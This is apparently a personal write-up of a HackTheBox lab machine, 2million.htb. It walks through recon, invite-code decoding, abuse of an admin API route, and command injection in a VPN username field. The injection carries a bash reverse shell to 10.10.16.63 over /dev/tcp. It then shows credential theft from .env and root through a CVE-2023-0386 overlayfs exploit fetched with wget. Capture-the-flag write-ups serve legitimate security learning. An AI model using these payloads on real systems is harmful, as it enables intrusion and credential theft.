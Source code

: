 # recon
- First i use **nmap -p- --min-rate=10000** 10.10.11.221 to check for open ports
- we got 2 ports open 22 and 80 we run nmap -sC -sV -p22,80 10.10.11.221
- after nmap we found port 80 has cookie  PHPSESSID: httponly flag not set
- we go check the site an no response only redirct to 2million.htb so we modify etc/hosts file with the ip to the site
- its a hackthebox site we run feroxbuster with command **feroxbuster -u http://2million.htb**
- we go check the login page i tryed admin@hackthebox.eu and password is password and we got usernotfound after several trys we also get user not found
- i try reflected xss from the url and its not working
- ![xss](https://github.com/Islamkafafy123/HackTheBox/blob/main/pictures/xss.jpg)
- we try the join page and it has an invite code page we solve it like the real hackthebox challange
- refresh and look in the network tap in the devolper tools we find its send request to inviteapi.min.js and thats intersting out of all the files displayed
- we go to depuuger to get the file and coppy it and beutify it
- after buetigying the code we see two function (makeinvitecode,verifyinvitecode)
- we put makeinvitecode in the console and we see date printed with encryption type ROT13
![makeinvitecode](https://github.com/Islamkafafy123/HackTheBox/blob/main/pictures/invitecode.jpg)
- we copy the data and go to cyperchef after decoding it says **In order to generate the invite code, make a POST request to /api/v1/invite/generate**
- we make post request using curl to the path **curl -X POST http://2million.htb/api/v1/invite/generate**
- we got code in base 64 after decoding **echo  V1pZRjgtRk9ETDktSDZSS1YtRTZQMVk= | base64 -d** we got it and use it to signup with email
- i try login with valid email and wrong passwor we still got usernotfound so we cant enumrate valid emails/username
- all links give server error except challnges and access page
- in access page there are 2 links (regenrate,coonectionpack)
- fireup burpsuite and send the 2 request to repeater and the 2 request gave the same response (VPN creds)
- i try playing with the directry /api/v1/user/vpn/generate from vpn adn all gave 404 or 301 except at /api/v1 it gave description of the api
# now we enumurate the api and exploit
- go to curl and  play with the routes (bruteforce))
- intersting api route /api/v1/admin/settings/update we could change user to admin
- so we go to the path /api/v1/admin/settings/update and we got 200 with messege invalid content type
- look at request and see no content type so we add one with json value **content-type : application/json** we send the request and its says missing parameter email
- we add the email parameter with our value in a json format and also is admin set to 1 and we got admin (idor vuln) we check we are admin with api route and yes we are admin
- It’s worth checking if there is any command injection.
- If the server is doing something like gen_vpn.sh [username], then I’ll try putting a ; in the username to break that into a new command. I’ll also add a # at the end to comment out anything that might come after my input. It works:
- we go to generate vpn with admin and yes it has command inj **{"username":"kafafy ; id #"}** using this payload we got the id command
- we try to get shell on the machine using bash reverse shell  **{"username":"kafafy ; bash -c 'bash -i >& /dev/tcp/10.10.16.63/1234 0>&1' #"}**
- we stablize the shell using --> **python3 -c 'import pty;pty.spawn("/bin/bash")'** --> **stty raw -echo;fg** --> **export TERM=xterm**
- .env is a file is commonly used in PHP applications to store environment variable values
- we cat the file and we got admin password we su to admin and we go the home directory to get the user.txt
# now ROOT SHELL
- **find / -user admin 2>/dev/null | grep -v '^/run\|^/proc\|^/sys'** to find and files owned by admin and yes we find a directory contains mail
- the email contains info about cve in overlayfs
- running Ubuntu 22.04 with the kernel 5.15.70 we search for cve for last year
- search for “linux kernel vulnerability fuse overlayfs” limited to the last year returns a bunch of stuff about CVE-2023-0386
- **git clone https://github.com/sxlmnwb/CVE-2023-0386**  in our machine
- **tar -cjvf CVE-2023-0386.tar.bz2 CVE-2023-0386** to make it compressed
- **python -m http.server** to send files
- **cd temp --> wget 10.10.16.63:8000/CVE-2023-0386.tar.bz2 --> tar -xjvf CVE-2023-0386.tar.bz2 -- >cd CVE-2023-0386** -- >
- " **./fuse ./ovlcap/lower ./gc** " --------->  " **./exp** "  AND we ARE ROOOOOOOOOOOOT ..
- 


